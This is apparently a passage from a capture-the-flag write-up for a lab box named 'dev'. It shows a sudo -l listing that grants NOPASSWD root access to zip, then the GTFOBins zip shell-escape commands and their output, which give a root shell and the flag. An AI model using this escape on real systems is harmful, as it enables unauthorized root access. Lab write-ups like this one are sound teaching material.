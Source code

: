 Check what we can run as sudo:

```
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

That looks promising! GTFOBins has an exploit for the zip binary

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

I ran those commands and boom!

```
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
Congratz on rooting this box !
# 

```
